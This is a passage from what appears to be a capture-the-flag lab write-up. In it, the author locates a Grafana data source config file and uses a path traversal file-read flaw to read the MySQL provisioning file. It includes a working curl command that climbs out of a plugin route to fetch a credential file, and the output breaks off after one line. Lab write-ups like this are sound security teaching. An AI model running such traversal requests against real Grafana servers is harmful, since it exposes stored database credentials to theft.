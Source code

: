 ![image*](/img/image-20220913111412334.png)

It says this is added by a config file and can't be modified in the UI.

#### Get mysql.yaml

The config file for this data source will likely have the creds for
MySQL in it. The [Grafana
docs](https://grafana.com/docs/grafana/latest/administration/provisioning/#data-sources)
show that these configs live in `/etc/grafana/provisioning/datasources`.

I'll get the file with the file read vuln:



    oxdf@hacky$ curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/provisioning/datasources/mysql.yaml
    apiVersion: 1
